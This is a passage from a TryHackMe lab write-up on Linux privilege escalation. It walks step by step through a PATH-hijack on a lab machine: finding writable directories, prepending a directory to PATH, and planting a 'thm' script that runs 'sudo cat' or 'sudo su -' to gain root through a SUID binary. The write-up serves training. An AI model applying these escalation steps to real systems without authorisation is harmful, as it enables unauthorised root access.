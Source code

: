 ![karen crontab](https://github.com/ryangreggw/THM-BOXES/assets/25268281/b4e13235-a821-42d6-932a-21fab1bf4a24)  
![crontab listener](https://github.com/ryangreggw/THM-BOXES/assets/25268281/0df06661-6485-4590-b1b4-8d8d9cb642f6)  
![finding matts pass](https://github.com/ryangreggw/THM-BOXES/assets/25268281/821d6e04-1c57-4a1f-8634-1954c3fcd728)  
![matts password crontabs](https://github.com/ryangreggw/THM-BOXES/assets/25268281/6fe306c7-8a01-4e8a-b5a0-fcd659f05c0b)

### ***# TASK 10: PRIVILEGE ESCALATION: PATH***
1. SSH into karen's machine. 
2. Search the machine for writable files: 
   - ```find / -writable 2>/dev/null | cut -d "/" -f 2,3 | grep -v proc | sort -u```
3. You should notice that there is a folder for a usr that has writable permissions. 
   - "home/murdoch"
   - I'm not sure why exactly it stood out, but it's odd to have writable permissions to another user's account when you're not root. 
4. Now we need to examine the contents of flag6.txt. To do this, we're going to create an executable file that will give us root permission. 
5. Navigate to the ```/home/murdoch``` directory since it has writable permissions. Use ```ls -alh``` to view what permissions each file has. 
   - You'll notice that the "test" file is executable. Let's run it and see what it does (```./test```). 
   - It appears that the executable is looking for a file called "thm." So, what we want to do is create a file called thm that ```test``` will execute. 
6. Before we create the file, we need to add /home/murdoch to our PATH. 
   - The output of the command: ```echo $PATH``` shows you the logical process that the machine goes through when searching for an executable file with that name. If you execute ```echo $PATH```, you'll notice that our current directory, the writable one, is not included in this. What this means is that when we execute ```test```, the machine doesn't look into our current directory. 
   - To remedy this, we add our directory to our path.
7. Add our current directory to the pathway. 
   - ```export PATH=/home/murdoch:$PATH```. 
   - Now, when you ```echo $PATH```, you should get the following: 
     - ```/home/murdoch:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin```
8. Create a file called "thm" that will enable us to read the "flag6.txt" file: 
   - nano thm
   - Now, there are multiple ways to go about this. You're free to choose whatever you'd like, the quickest way to get the answer will probably be the following though: 
     - Add the shebang: ```#!/bin/bash```. This lets the system know what interpreter we want it to use to run the succeeding commands. 
     - Then: ```sudo cat /home/matt/flag6.txt```. 
   - Second method, Gain root privileges and then read the "flag6.txt" file. 
     - Instead of ```sudo cat``` we can use ```sudo su -```.
9. Make the thm file executable:
   - chmod +x thm
10. Run "test."
    - ```./test```

![path script to execute as root](https://github.com/ryangreggw/THM-BOXES/assets/25268281/c1c2cec4-b564-4e9c-bb7a-0af588e5725b)  
![path escalation](https://github.com/ryangreggw/THM-BOXES/assets/25268281/6d0209e7-635e-44fc-9c26-d5f8b23e6dc2)  
![path sudo su](https://github.com/ryangreggw/THM-BOXES/assets/25268281/894cee0f-81e6-4ba4-b810-ac5c5afcf999)
